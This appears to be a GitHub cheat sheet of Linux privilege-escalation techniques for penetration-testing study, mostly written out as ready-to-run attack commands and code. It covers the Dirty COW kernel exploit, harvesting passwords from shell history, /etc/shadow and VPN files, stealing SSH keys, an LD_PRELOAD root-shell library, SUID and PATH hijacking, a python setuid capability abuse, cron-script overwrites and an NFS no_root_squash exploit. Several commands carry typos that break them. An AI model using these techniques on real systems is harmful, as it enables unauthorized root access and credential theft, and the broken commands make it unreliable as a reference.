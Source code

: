 # Linux Privilege Escalation
## //cheat-sheet

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

### Resources:

* **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
* **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
* **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

* **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
* **[linenum](https://github.com/rebootuser/LinEnum)**
* **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
* **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits
#### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

* **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**

* chek kernel version on target system: `uname -a`
* compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
* use dirty c0w on target machine `./cow`
* c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
* type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

#### Escalation via stored passwords:

* see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
* cat out the `cat .bash_history` as well
* you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
* `ps aux` to see processes
* `w` to see who's logged in 
* when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
* ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

#### Escalation via weak file permissions:

* `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
* passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
* **x**  is a placeholder in it for the hash which contains the password from the shadow file
* if we can modify /etc/passwd the x in the file we could become root,
like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
* we can change the hash to one where we know the password and become root like that

#### Escalation via ssh keys:

* `find / -name authorized_keys 2>/dev/null`
* `find / -name id_rsa 2>/dev/null`
* once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
* `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

#### Preloading

* it's a feature of LD (dynamic linker)
* we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
* `nano shell.c`
* `#include <stdio.h>`
* `#include <sys/types.h>`
* `#include <stdlib.h>`
* `void_init() {`
* `   unsetenv("LD_PRELOAD");`
* `   setgid(0);`
* `   setuid(0);`
* `   system("/bin/bash");`
* `}`


* don't forget to include tabs with lines: unsetenv, segid, setuid, system
* compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
* ***fPIC is position independent code***, regardless of what your shell address is, it will work
* need full path to ***shell.so***
* run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

* to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

#### Shared object injection:

* strace is diagnosing, debugging Linux for tampering and monitoring
* `strace /usr/local/bin/suid-so 2>&1`
* grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`


#### Symbolic link

* symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
* create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
* export service: `export -f /usr/sbin/service`
* compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

* searching for capabilities: `getcap -r / 2>/dev/null`
* found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
* execute: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

* **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
* `17 * * *` every 17th minutes execute a command for a user
* `* * * * root /user/local/bin/compress.sh`
* `* * * * root overwrite.sh`
* then
* `systemctl list-timers --all`
* add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
* wait for crontab to kick in and run: `/tmp/bash -p` and we're root!

* ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***

* **Another way of overwriting the crontab file is:**
* `cat /usr/local/bin/overwrite.sh`
* `nano /usr/local/bin/overwrite.sh`
* `#!/bin/bash`
* `echo date > /tmp/useless`
* `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
* now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
* `whoami`
* **root!**

### Escalation via NFS root squashing

* on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
* `showmount -e <target IP>` results will show up
* `/tm *`
* make a folder on your machine `mkdir /tmp/mountme`
* and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`

* from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
* compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
* chande mod: `chmod +x /tmp/mountme/x`
* now cd over to /tmp on target machine and execute `./x`
* we're root!

### Upgrade your shell on target machine

* `python 'import pty;pty.spawn("/bin/bash")'`
* `export TERM=xterm`
* background your shell with **CTRL+Z**
* `ptty raw -echo; fg`


